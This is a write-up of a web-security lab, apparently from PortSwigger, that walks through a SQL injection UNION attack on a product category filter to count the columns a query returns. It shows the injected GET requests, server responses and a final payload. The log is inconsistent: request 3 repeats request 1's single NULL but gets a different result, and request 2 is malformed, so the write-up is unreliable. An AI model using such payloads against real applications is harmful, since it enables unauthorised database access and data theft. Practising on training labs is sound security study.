 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values. 


**PayLoads to check**
```
UNION+SELECT+{NULL x ???}+FROM+information_schema.tables--+- 
```

**request 1:**
```
GET /filter?category=Pets'+UNION+SELECT+NULL+FROM+information_schema.tables--+- HTTP/1.1
```
response:
```
HTTP/1.1 500 Internal Server Error
```

**request 2:**
```
GET /filter?category=Pets'+UNION+SELECT+NULL,+NULL,FROM+information_schema.tables--+- HTTP/1.1
``` 
response:
```
HTTP/1.1 500 Internal Server Error
```

**request 3:**
```
GET /filter?category=Pets'+UNION+SELECT+NULL+FROM+information_schema.tables--+- HTTP/1.1
```
response:
```
HTTP/1.1 200 OK
```
since we had 3 NULL values we understand there are 3 columns in our original table

**final payload**:
```
'+UNION+SELECT+NULL,+NULL,+NULL+FROM+information_schema.tables--+
```

#
# [***2. SQL injection UNION attack, finding a column containing text***](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.
